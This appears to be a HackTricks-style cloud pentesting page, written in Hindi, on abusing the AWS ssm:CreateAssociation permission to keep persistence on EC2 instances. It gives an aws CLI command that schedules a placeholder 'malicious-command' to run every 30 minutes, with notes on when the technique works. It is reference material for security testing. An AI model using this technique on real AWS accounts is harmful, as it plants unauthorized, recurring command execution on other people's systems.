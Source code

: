 # AWS - SSM Perssitence

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

अधिक जानकारी के लिए देखें:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### ssm:CreateAssociation का उपयोग persistence के लिए

जिसके पास अनुमति **`ssm:CreateAssociation`** है, वह State Manager Association बना सकता है जो SSM द्वारा प्रबंधित EC2 instances पर ऑटोमेटिक रूप से commands निष्पादित करे। इन associations को तय अंतराल पर चलाने के लिए कॉन्फ़िगर किया जा सकता है, जिससे ये interactive sessions के बिना backdoor-like persistence के लिए उपयुक्त होते हैं।
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> यह persistence method तब तक काम करती है जब तक EC2 instance Systems Manager द्वारा managed है, SSM agent चल रहा है, और attacker के पास associations बनाने की permission है। इसे interactive sessions या explicit ssm:SendCommand permissions की आवश्यकता नहीं है। **Important:** `--schedule-expression` parameter (e.g., `rate(30 minutes)`) को AWS के न्यूनतम अंतराल 30 minutes का पालन करना होगा। तुरंत या एक-बार के execution के लिए, `--schedule-expression` को पूरी तरह से हटा दें — association बनते ही यह एक बार execute होगा।

{{#include ../../../../banners/hacktricks-training.md}}
